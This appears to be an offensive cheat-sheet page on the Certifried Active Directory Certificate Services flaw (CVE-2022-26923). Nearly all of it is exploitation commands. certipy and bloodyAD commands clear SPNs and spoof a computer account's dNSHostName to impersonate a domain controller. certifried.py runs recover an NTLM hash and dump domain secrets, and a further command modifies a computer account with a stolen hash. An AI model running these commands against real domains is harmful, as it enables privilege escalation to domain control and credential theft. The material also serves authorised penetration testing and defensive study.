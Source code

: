 # Certifried CVE-2022-26923

### An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.

## Enumeration

 - certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User'

### If Certipy doesn't print Certificate object SID is [...] after obtaining the certificate, then the attack can be conducted.

## Exploitation

#### 1) Clearing the SPNs

 - bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME serviceprincipalname

#### 2) Setting the dNSHostName value to the name of a computer account to impersonate

 - bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME dnsHostName -v '$DC_NAME.$DOMAIN'

#### 3) Verifying the dNSHostName value and SPN entries

 - bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP get object $COMPUTER_NAME --attr dnsHostName,serviceprincipalname

#### 4) Adding a computer account and setting the dNSHostName to impersonate

 - certipy account create -u "$USER"@"$DOMAIN" -p "$PASSWORD" -user "$COMPUTER_NAME" -pass "$COMPUTER_PASS" -dns "$DC_NAME.$DOMAIN"

## Alternate Method

#### 1) Request certificate manually

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 (Add the computer and update necessary attributes)

#### 2) Recover NTLM Hash

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -use-ldap (Request the certificate manually)

### Proceed with secretsdump

#### 3) After obtaining the NTLM hash, proceed with dumping secrets

 - python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -computer-name 'ControlledComputer' -computer-pass 'Password123' -use-ldap -dump

#### 4) Modify computer account

 - python3 modify_computer.py range.net/ws01\$@192.168.86.182 -hashes :0e3ae07798e1bc9e02b049a795a7e69f (In case you obtain a machine account hash, modify the computer account.)
